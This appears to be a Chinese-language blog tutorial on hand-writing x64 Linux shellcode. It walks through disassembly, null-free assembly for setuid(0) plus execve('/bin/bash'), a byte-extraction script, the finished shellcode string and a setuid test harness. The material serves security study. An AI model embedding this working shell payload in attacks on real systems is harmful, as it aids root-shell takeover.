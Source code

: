 ```yaml
---
layout: post
title: 'shellcode x64'
subtitle: 'shellcode编写'
tags: 安全 逆向 shellcode linux
---
```


### retsh.c

```C
// retsh.c

#include<unistd.h>

char* buff[] = {
    "/bin/bash"
};

void main(){
    setuid(0);
    execve("/bin/bash", buff, NULL);
}
```

```bash
rz$ gcc retsh.c -static -o retsh
rz$ sudo chown root.root retsh
rz$ sudo chmod u+s retsh
rz$ ./retsh
root# whoami
root
```

### 分析生成的文件

```bash
rz$ r2 retsh

> s main
> pdf
|   sym.main ();
|           0x00400b4d      55             push rbp
|           0x00400b4e      4889e5         mov rbp, rsp
|           0x00400b51      bf00000000     mov edi, 0
|           0x00400b56      e8957f0400     call sym.__setuid    # setuid
|           0x00400b5b      ba00000000     mov edx, 0
|           0x00400b60      488d3589852b.  lea rsi, obj.buff           ; 0x6b90f0
|           0x00400b67      488d3d561409.  lea rdi, str.bin_bash       ; 0x491fc4 ; "/bin/bash"
|           0x00400b6e      e84d7f0400     call sym.execve      # execve

> s sym.__setuid
> pdf
|   sym.__setuid (int arg1);
|           0x00448af0      4883ec38       sub rsp, 0x38               ; '8'
|           0x00448af4      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00448afd      4889442428     mov qword [local_28h], rax
|           0x00448b02      31c0           xor eax, eax
|           0x00448b04      48833dc40427.  cmp qword [0x006b8fd0], 0
|       ,=< 0x00448b0c      752a           jne 0x448b38
|       |   0x00448b0e      b869000000     mov eax, 0x69               ; 'i' ; 105
|       |   0x00448b13      0f05           syscall

> s sym.execve
> pdf
|   sym.execve ();
|           0x00448ac0      b83b000000     mov eax, 0x3b               ; ';' ; 59
|           0x00448ac5      0f05           syscall
```

如上，编写相应的汇编代码

注：`/bin/bash`转换为16进制表示为`0x2f62696e2f62617368`，由于内存中是小端存储，将其反转为`0x687361622f6e69622f`，长度18，可以先将`0x68`压栈，在将`0x7361622f6e69622f`压栈，此时，`rsp`所指向的字符串为`/bin/bash`，将rdi指向此处即可。

```asm
; shell.asm

global _start

_start:

xor rdi, rdi
; setuid(0)
xor eax, eax
mov al, 0x69
syscall         ; setuid

xor rax, rax
mov al, 0x68
push rax
mov rax, 0x7361622f6e69622f
push rax
mov rdi, rsp    ; str.bin_bash; "/bin/bash"

xor rax, rax
push rax
mov rax, rsp
push rax        ; 此时rsp就是 "/bin/bash"地址的指针
mov rsi, rsp    ; obj.buff; {"/bin/bash"}

;xor rsi, rsi
xor edx, edx      ; edx

; execve("/bin/bash", {"/bin/bash"}, NULL) 
xor eax, eax
mov al, 0x3b
syscall         ; execve
```

编译链接

```bash
rz$ nasm -f elf64 shell.asm -o shell.o
rz$ ld shell.o -o shell
```

### 提取shellcode

```shell
# extract.sh

if [ $# != 1 ]; then
    echo "Usage: $1 obj.o"
else
    for i in `objdump -d $1 | grep "^[[:space:]]*[0-9a-f]\+:" | cut -f 2`; do
        echo -n \\x$i
    done
    echo
fi
```

在提取之前先观察shellcode，会发现很多00字符，需要进行修改过滤掉这些怀字符，如下：

- 修改前：
    ![修改前](/assets/img/md/2018-07-12-735435745.png)
- 修改后：
    ![修改后](/assets/img/md/2018-07-12-4106904479.png)

之后提取shellcode:

`
\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05
`

### 验证

为了验证shellcode可以编写一个简单的c程序：

```C
#include<stdio.h>

char* shellcode = "\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05"
"\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69"
"\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48"
"\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05";

void main(){
    puts("shellcode ～～～");
    ((void (*)(void))shellcode)(); //将shellcode当作函数执行
}
```

```bash
rz$ gcc shell.c -o shell.out
rz$ sudo chown root.root shell.out
rz$ sudo chmow u+s shell.out
rz$ ./shell.out
root# whoami
root
```
